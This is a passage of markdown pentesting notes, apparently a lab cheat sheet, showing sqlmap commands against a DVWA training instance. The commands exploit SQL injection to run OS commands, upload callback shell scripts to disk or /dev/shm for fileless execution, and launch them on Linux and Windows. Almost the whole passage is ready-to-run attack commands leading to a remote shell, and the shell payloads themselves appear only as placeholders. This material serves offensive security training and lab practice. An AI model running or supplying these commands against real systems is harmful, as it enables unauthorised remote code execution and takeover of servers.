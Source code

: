 ### 5.1.5 - Execute OS Command

#### 5.1.5.1 - General

- Execute any command

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session>; security=low" --random-agent --os-cmd="whoami"
```

#### 5.1.5.2 - Linux

- Execute the callback shell in disk

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session>; security=low" --random-agent --file-write="/path/to/shell.py" --file-dest="/tmp/shell.py"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session>; security=low" --random-agent --os-cmd="python /tmp/shell.py"
```

- Execute the callback shell in memory (fileless memory)

1. Copy the file in `/dev/shm/` directory

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session>; security=low" --random-agent --file-write="/path/to/shell.py" --file-dest="/dev/shm/shell.py"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session>; security=low" --random-agent --os-cmd="python /dev/shm/shell.py"
```

2. Execute a one liner

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session>; security=low" --random-agent --os-cmd="python -c <payload>"
```

#### 5.1.5.3 - Windows

TODO: Fill in this info to test a windows environment

- Execute the callback shell in disk

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session>; security=low" --random-agent --file-write="/path/to/shell.exe" --file-dest="C:/windows/temp/shell.exe"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session>; security=low" --random-agent --os-cmd="cmd /c C:/windows/temp/shell.exe"
```
